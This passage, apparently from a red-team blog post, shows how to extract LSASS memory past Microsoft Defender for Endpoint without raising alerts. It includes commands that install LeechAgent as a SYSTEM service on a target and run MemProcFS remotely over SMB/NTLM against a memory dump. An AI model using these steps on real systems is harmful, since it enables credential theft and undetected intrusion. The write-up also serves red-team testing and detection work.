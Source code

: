 Noting for any alerts, no new alerts are found:

![](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/refs/heads/master/_posts/redteaming/Exp_MDE_LSASS_Dump/Images/Pasted%20image%2020230823180840.png)


<a name="remote-binary-execution-against-edr-mde-memprocfs"></a>
### Remote Binary execution against EDR (MDE) - MemProcFS 

It is possible to use MemProcFS to remotely perform the analysis as showcased [here](https://github.com/ufrisk/MemProcFS/wiki/_Remoting). 

Spawn another testmachine. We will be performing the dump from non-domain joined machines. One requirement is the installation of the [leechAgent](https://github.com/ufrisk/LeechCore/releases/tag/v2.16) on the target running as a service. This can be done remotely in a domain joined environment. In this case we install this agent on the target manually.

Make sure this service is running as SYSTEM. Next on the remote computer perform a dump analysis as above using the `-remote` and `-remotefs` parameters as follows:

```
C:\Tools\LeechAgent_files_and_binaries_v2.16.0-win_x64-20230820> .\leechagent.exe -install
LeechAgent: Service installed successfully.

C:\Tools\LeechAgent_files_and_binaries_v2.16.0-win_x64-20230820> sc query leechagent
SERVICE_NAME: leechagent
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 4  RUNNING
                                (STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
```

Now on the remote system run MemProcFS as follows:

```
C:\Tools>.\MemProcFS\MemProcFS.exe -device C:\Tools\TestMachine4-20230825-103250.dmp -remote smb://ntlm:10.1.1.4:logon -remotefs
```

![](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/refs/heads/master/_posts/redteaming/Exp_MDE_LSASS_Dump/Images/Pasted%20image%2020230825182059.png)
